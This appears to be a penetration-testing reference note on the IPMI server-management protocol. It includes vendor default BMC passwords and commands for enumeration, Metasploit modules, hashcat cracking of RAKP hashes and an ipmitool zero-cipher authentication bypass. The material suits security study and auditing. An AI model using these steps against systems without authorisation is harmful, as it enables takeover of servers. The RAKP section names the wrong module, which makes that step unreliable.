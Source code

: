 ```yaml
---
title: "IPMI"
tags:
  - protocol
  - networking
created: "2025-02-25"
---
```


# IPMI

## Basic Information
- **Full Name:**  Intelligent Platform Management Interface
- **Abbreviation:** IPMI
- **OSI Layer:** Not strictly applicable (operates as an out-of-band management interface)
- **Default Port(s):** 623
- **Protocol Type:** UDP

## Description
`IPMI` is a set of standardized specifications for hardware-based host management systems. It provides system administrators with remote control over servers regardless of the host’s state—by interfacing directly with the Baseboard Management Controller (BMC). This allows for system monitoring, management, and even remote upgrades independently of the host's BIOS, CPU, or operating system.

## Use Cases
- Modify BIOS settings before the OS loads.
- Access and manage systems even when they are fully powered down.
- Remotely troubleshoot or recover a system after a failure.
- Update system firmware without requiring physical access.

## Dangerous Settings
**Default Credentials:** Many BMCs ship with default usernames and passwords (e.g., Dell iDRAC uses `root`/`calvin`, Supermicro IPMI uses `ADMIN`/`ADMIN`). Failure to change these can lead to unauthorized access.
**RAKP Protocol Vulnerability:** In IPMI 2.0, a flaw in the RAKP authentication process sends a salted SHA1 or MD5 hash before authentication. This allows attackers to capture password hashes for offline cracking.
**Password Reuse:** Weak or reused credentials across systems can lead to lateral movement and broader network compromise.

### Unique default password

| Product Name                                        | Default Username | Default Password                        |
| --------------------------------------------------- | ---------------- | --------------------------------------- |
| **HP Integrated Lights Out (iLO)**                  | Administrator    | <factory randomized 8-character string> |
| **Dell Remote Access Card (iDRAC, DRAC)**           | root             | calvin                                  |
| **IBM Integrated Management Module (IMM)**          | USERID           | PASSW0RD (with a zero)                  |
| **Fujitsu Integrated Remote Management Controller** | admin            | admin                                   |
| **Supermicro IPMI (2.0)**                           | ADMIN            | ADMIN                                   |
| **Oracle/Sun Integrated Lights Out Manager (ILOM)** | root             | changeme                                |
| **ASUS iKVM BMC**                                   | admin            | admin                                   |
## Attack Vectors
1. **Exploitation of Default Credentials:** Using well-known default username/password combinations to gain access.
2. **RAKP Protocol Exploitation:** Capturing and cracking password hashes during the authentication process.

3. **BMC Compromise:** Once access is achieved, attackers can control system functions such as monitoring, rebooting, and even reinstalling the host operating system.

## Enumeration
### Banner Grabbing
```bash
nc -vn <target_ip> 623
```

### Service Scanning
#### Nmap scan
```bash
sudo nmap -sU --script ipmi-version -p 623 <target_ip>
```
#### Metasploit Modules
##### Version Detection
Use this module to confirm that IPMI (typically version 2.0) is running and accessible.
```bash
msf > use auxiliary/scanner/ipmi/ipmi_version
```

##### Flaw in the RAKP Protocol in IPMI 2.0
If default credentials fail, this module leverages the RAKP protocol flaw. During the authentication process. The server sends a salted hash (SHA1 or MD5) of the password. This module captures the hash, which can then be cracked offline (e.g using Hashcat in mode 7300).
```bash
msf > use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

An example Hashcat mask attack might look like:
```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```
This command attempts all combinations of uppercase letters and digits for an eight-character password.

##### Zero cipher authentication bypass
Zero cipher authentication bypass resulting in administrative access.
Check if vulnerable
```bash
msf > use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

Then connect
```bash
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list
```

## Related
- iDRAC
- HP iLO
- SNMP (for alerting and monitoring)
## Fun Facts
- Exploiting the RAKP flaw is one of the few methods to extract sensitive credential hashes even when default credentials have been changed.
## References
- https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/
- https://viperone.gitbook.io/pentest-everything/psmapexec/methods/ipmi
- 

